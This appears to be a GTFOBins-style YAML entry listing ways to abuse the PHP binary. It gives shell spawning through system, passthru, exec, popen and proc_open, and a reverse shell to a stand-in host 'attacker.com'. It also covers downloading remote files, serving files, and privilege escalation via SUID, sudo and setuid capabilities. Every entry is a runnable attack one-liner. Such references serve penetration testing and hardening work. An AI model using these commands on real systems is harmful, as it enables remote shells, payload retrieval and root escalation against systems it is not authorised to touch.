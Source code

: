 ```yaml
---
functions:
  shell:
    - code: |
        export CMD="/bin/sh"
        php -r 'system(getenv("CMD"));'
    - code: |
        export CMD="/bin/sh"
        php -r 'passthru(getenv("CMD"));'
    - code: |
        export CMD="/bin/sh"
        php -r 'print(shell_exec(getenv("CMD")));'
    - code: |
        export CMD="/bin/sh"
        php -r '$r=array(); exec(getenv("CMD"), $r); print(join("\\n",$r));'
    - code: |
        export CMD="/bin/sh"
        php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
  command:
    - code: |
        export CMD="id"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
  file-upload:
    - description: Serve files in the local folder running an HTTP server. This requires PHP version 5.4 or later.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  suid:
    - code: |
        CMD="/bin/sh"
        ./php -r "system('$CMD');"
  sudo:
    - code: |
        CMD="/bin/sh"
        sudo php -r "system('$CMD');"
  capabilities:
    - code: |
        CMD="/bin/sh"
        ./php -r "posix_setuid(0); system('$CMD');"
---
```

